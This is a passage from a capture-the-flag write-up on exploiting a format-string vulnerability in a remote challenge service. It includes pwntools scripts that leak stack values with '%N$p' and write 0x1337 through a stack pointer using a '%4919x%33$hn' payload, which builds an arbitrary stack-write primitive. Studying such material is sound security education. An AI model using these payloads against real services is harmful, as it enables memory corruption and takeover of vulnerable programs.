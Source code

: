 for idx in range(1, 101):
    conn.sendline('#{}: %{}$p'.format(idx, idx).encode())
    leaked_value = conn.recvline()
    print(leaked_value.decode())
    conn.recvline()
    conn.sendline(b'202009')
    conn.recvuntil(b':\n')
```
Take a look at stack content and take a moment in order to understand how addresses on a stack can suit the exploitation and gaining WWW primitive.

Pay attention at stack addresses that are leaked from a stack. I've found a stack address which points to another stack address. After running the previously mentioned script, I've spotted several interesting stack addresses stored on a stack, one of them at offset #33. Let's upgrade the script to write at ```0x1337``` at address pointed by offset #33:
```
from pwn import *

conn = remote('challenges.ctfd.io', 30426)

def leak_stack_values(values_cnt):
    for idx in range(1, values_cnt + 1):
        conn.sendline('#{}: %{}$p'.format(idx, idx).encode())
        leaked_value = conn.recvline()
        print(leaked_value.decode())
        conn.recvline()
        conn.sendline(b'202009')
        conn.recvuntil(b':\n')

# init
conn.recvuntil(b'?')
conn.sendline(b'-1')
conn.recvuntil(b')')
conn.sendline(b'202009')
conn.recvuntil(b':\n')

log.info("Before writing 0x1337 at address stored at index #33")
leak_stack_values(100)

conn.sendline(b'%4919x%33$hn')
log.info("After writing 0x1337 at address stored at index #33")
conn.recvuntil(b')\n')
conn.sendline(b'202009')
conn.recvuntil(b':\n')

leak_stack_values(100)
```
After running the script and carefully looking at the output, I've spotted the destination offset:
Before arbitrary stack write:
```
#47: 0x7ffc4ceb1fe3
```
After arbitrary stack write:
```
#47: 0x7ffc4ceb1337 
```
Woohoo! #33 points at stack entry at offset #47. Perfect, so I can use a pointer at #33 to control a value stored in stack entry at offset #47.
So arbitrary write primitive looks like that:

![pointers_hierarchy](https://user-images.githubusercontent.com/45107680/113341117-72974c80-9335-11eb-9b3b-8d5f138313db.jpg)

I use a master pointer (which is immutable because I cannot control its value) to change an address stored at offset #47. So I can set a pointer stored at offset #47 to point at any stack address.
```